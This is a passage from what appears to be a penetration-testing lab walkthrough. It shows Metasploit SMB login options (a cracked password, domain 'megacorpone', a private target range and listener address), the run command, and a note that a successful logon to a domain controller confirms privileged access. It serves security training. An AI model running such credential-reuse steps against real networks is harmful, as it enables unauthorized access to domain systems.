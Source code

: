 	- `set SMBPass Winter2021`
	
	- `set SMBDomain megacorpone`
	
	- `set RHOSTS 172.22.117.0/28`
	
	- `set LHOST 172.22.117.100`
	
	 ![A screenshot depicts the options settings of the module.](Images/smblogin.PNG)

3. Run the exploit.

	- `run`
	
4. Once the scan gets to 172.22.117.10, you should see a successful logon. This is the IP address of WINDC01, meaning the credentials we cracked were highly privileged and we now have access to a DC.
